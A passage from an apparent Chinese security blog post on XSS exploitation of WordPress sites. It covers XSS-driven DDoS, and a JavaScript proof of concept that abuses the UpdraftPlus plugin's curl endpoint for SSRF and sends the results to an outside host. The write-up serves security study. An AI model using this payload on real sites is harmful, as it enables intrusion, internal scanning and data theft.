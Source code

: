 甚至如果想要使整个站出错，可以直接设置.htaccess内容为`deny from all`，那样整个站就会返回403，拒绝用户访问。

当然除了攻击网站以外，我们可以通过使用xss来注入恶意payload到页面，当用户访问页面时，会不断地向目标发起请求，当网页的用户量达到一定级别时，可以以最低的代价造成大流量的ddos攻击。几年前就发生过类似的事情，攻击者利用搜狐视频评论的储存型xss，对目标产生了大流量的ddos，这种攻击成本低，持续时间长，对攻击者还有很强的隐秘性。

[http://www.freebuf.com/news/33385.html](http://www.freebuf.com/news/33385.html)

攻击和防护的一些思路见
[https://www.incapsula.com/blog/world-largest-site-xss-ddos-zombies.html](https://www.incapsula.com/blog/world-largest-site-xss-ddos-zombies.html)

在前面部分的内容，花了大篇幅来描述XSS在前台中的影响，关于后台的部分只有一部分通过编辑插件实现的XSS to Rce.但实际上还有更多拓展的可能。

## XSS的后端利用

这里首先介绍一个WordPress的插件UpdraftPlus，这是一个用于管理员备份网站的插件，用户量非常大，基本上所有的wordpress使用者都会使用UpdraftPlus来备份他们的网站，在这个插件中，集成了一些小工具，配合我们xss，刚好可以实现很多特别的攻击链。

首先是phpinfo，前面提到，我们可以修改hello holly这个插件来查看phpinfo，但是如果这个默认插件被删除了，而且又没有合适的方式隐藏phpinfo页面，那么我们可以通过UpdarftPlus来获取phpinfo内容。

这个链接地址为
```
wp-admin/admin-ajax.php?page=updraftplus&action=updraft_ajax&subaction=phpinfo&nonce=cbe6c0b062
```

除了phpinfo以外，我们还可以使用内建的curl工具，这个工具没有对请求地址做任何限制，那么我们就可以使用这个工具来ssrf或者扫描内网。

curl的链接
```
wp-admin/admin-ajax.php?action=updraft_ajax&subaction=httpget&nonce=2f2f07ce90&uri=http://127.0.0.1&curl=1
```

配合js，poc如下：
```

url = window.location.href;
url = url.split('wp-admin')[0];
p = 'wp-admin/options-general.php?';
p2 = 'wp-admin/admin-ajax.php?';
q = 'page=updraftplus&tab=addons';
s = "http://111111111";

a = new XMLHttpRequest();
a.open('GET', url+p+q, 0);
a.send();

q2 = 'nonce=' + /credentialtest_nonce='([^']*?)'/.exec(a.responseText)[1] +
'&uri=' + s + '&action=updraft_ajax&subaction=httpget&curl=1';

// 发起请求
b = new XMLHttpRequest();
b.open('GET', url+p2+q2, 1);
b.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
b.send();

b.onload = function(){
	if (this.readyState == 4) {
		// 传出请求结果
		var c = new XMLHttpRequest(); 
		c.open('POST', 'http://0xb.pw', true); 
		c.setRequestHeader("Content-type","application/x-www-form-urlencoded");
		c.send('result='+encodeURIComponent(b.responseText))
	}
}
```
![image.png-57.6kB][12]

  [1]: http://static.zybuluo.com/LoRexxar/5gqfedhw93m0l2o493dgst32/image.png
  [2]: http://static.zybuluo.com/LoRexxar/kww6v2ictpq6lddemh75jx3z/image.png
  [3]: http://static.zybuluo.com/LoRexxar/ove34bas780053hiabnb2ts8/image.png
  [4]: http://static.zybuluo.com/LoRexxar/o7s4w1t1woqsd80ywkl12sye/image.png
  [5]: http://static.zybuluo.com/LoRexxar/34ryqtulidaxi6r19rstgmrt/image.png
  [6]: http://static.zybuluo.com/LoRexxar/1w7njuxjgsdzutarkk9b7n4b/image.png
  [7]: http://static.zybuluo.com/LoRexxar/lrpbjdj87ac4l1b0v4iwk27v/image.png
  [8]: http://static.zybuluo.com/LoRexxar/y240zcqh29dtqe84zwfyb4ya/image.png
  [9]: http://static.zybuluo.com/LoRexxar/s0h4cv5ir3z9ytdkn4rw69r9/image.png
  [10]: http://static.zybuluo.com/LoRexxar/t74hbh21xgwstf6rmehftm01/image.png
  [11]: http://static.zybuluo.com/LoRexxar/k6fp1b0qibh5a7j7r442oeu4/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ku5sh6qlu6ygb4v3v8mm1wxy/image.png
  [13]: http://static.zybuluo.com/LoRexxar/o6sgylp105ljwhiqc8b88goa/image.png